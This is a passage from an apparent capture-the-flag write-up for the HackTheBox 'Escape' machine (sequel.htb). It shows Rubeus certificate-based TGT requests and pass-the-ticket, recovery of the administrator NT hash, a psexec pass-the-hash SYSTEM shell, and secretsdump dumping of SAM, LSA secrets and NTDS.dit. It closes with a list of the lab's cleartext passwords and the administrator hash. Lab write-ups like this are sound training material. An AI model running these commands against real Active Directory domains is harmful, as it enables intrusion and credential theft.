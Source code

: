 ```bash
.\Rubeus.exe asktgt /user:administrator /certificate:C:\users\ryan.cooper\cert.pfx /outfile:C:\Users\Ryan.Cooper\tgt.kirbi
```

```bash
.\Rubeus.exe ptt /ticket:C:\Users\ryan.cooper\tgt.kirbi
```

```powershell
klist
```

Now we can see ticket is loaded into current session:

![image.png](image%2025.png)

- You have a **TGT for `administrator@SEQUEL.HTB`**.
- That ticket is valid and was issued by the **KDC (Domain Controller)**.

But as we don’t have TGS ticket we can’t access Administrator folders and files. 

```bash
.\Rubeus.exe asktgt /user:administrator /certificate:C:\users\ryan.cooper\cert.pfx /getcredentials
```

Let’s then request credentials with `/getcredentials` option

![image.png](image%2026.png)

Using this hash and psexec we can get nt authority\ system shell:

```bash
impacket-psexec Administrator@$IP -hashes :A52F78E4C751E5F5E17E1E9F3E58F4EE
```

![image.png](image%2027.png)

As we have a hash of the administrator user we can dump domain hashes using secretsdump with hash authentication:

```bash
secretsdump.py sequel/administrator@$IP -hashes A52F78E4C751E5F5E17E1E9F3E58F4EE
```

It dumped SAM database for local users, LSA secrets, even showed cleartext password for sql_svc account, then dumped NTDS.dit file:

![image.png](image%2028.png)

## Credentials

```bash
PublicUser : GuestUserCantWrite1 # Database Credentials for new hired
sql_svc : REGGIE1234ronnie
Ryan.Cooper : NuclearMosquito3
Administrator : A52F78E4C751E5F5E17E1E9F3E58F4EE
```
